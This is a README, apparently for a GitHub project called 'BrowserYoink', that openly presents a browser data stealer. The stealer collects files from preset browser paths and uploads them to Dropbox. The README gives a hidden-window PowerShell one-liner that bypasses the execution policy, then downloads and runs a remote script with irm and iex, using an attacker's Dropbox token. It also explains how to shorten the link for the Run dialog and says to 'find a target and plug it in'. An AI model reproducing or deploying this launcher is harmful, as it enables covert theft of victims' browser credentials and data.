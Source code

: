# WIP documentation
# BrowserYoink
Its your standard data stealer from browsers. This one specifically loops through preset paths and files. Files are sent to dropbox.

## How to use it
```
powershell -w h -ep bypass $AccessToken='';irm <link> | iex
```
 1. Place your dropbox ``AccessToken`` inside ``$AccessToken=''``
 2. Replace ``<link>`` with a **SHORTENED** link to either snatch.ps1 or your own copy. If link is not shortened it will exceed the character limit of Run dialog box and not work
 3. Find a target and plug it in
